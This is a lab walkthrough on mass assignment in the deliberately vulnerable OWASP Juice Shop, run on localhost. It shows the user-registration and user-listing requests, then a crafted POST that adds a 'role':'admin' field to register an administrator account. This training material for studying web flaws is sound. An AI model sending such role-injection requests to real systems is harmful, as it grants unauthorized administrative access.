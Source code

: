 # Mass Assignment

Mass assignment occurs when a property of a JSON or request payload is available in an unintended security context.

1. Review the network traffic generated after creating a user in the OWASP juice shop and note the following request:

    ``` json
    POST https://localhost:88/api/Users/ HTTP/1.1
    {
        "email" : "someone@somewhere.com",
        "password" : "BadPass123",
        "passwordRepeat" : "BadPass123",
        "securityQuestion" : {
            "id" : 7,
            "question" : "Name of your favorite pet?",
            "createdAt" : "2024-03-24T13:50:54.019Z",
            "updatedAt" : "2024-03-24T13:50:54.019Z"
            },
        "securityAnswer" : "Bob"
    }
    ```

1. After logging in, submit a GET request to `api\Users` and observe the response:

    ``` json
    {
    "status" : "success",
    "data" : [ {
        "id" : 1,
        "username" : "",
        "email" : "admin@juice-sh.op",
        "role" : "admin",
        "deluxeToken" : "",
        "lastLoginIp" : "",
        "profileImage" : "assets/public/images/uploads/defaultAdmin.png",
        "isActive" : true,
        "createdAt" : "2024-03-24T18:39:35.837Z",
        "updatedAt" : "2024-03-24T18:39:35.837Z",
        "deletedAt" : null
    },
    . . .
    ```

1. Note that the `role` is returned. Attempt to create a new user with the following request:

    ``` json
    POST https://localhost:88/api/Users/ HTTP/1.1
    {
        "email" : "sneakyadmin",
        "password" : "admin",
        "role" : "admin"
    }
    ```
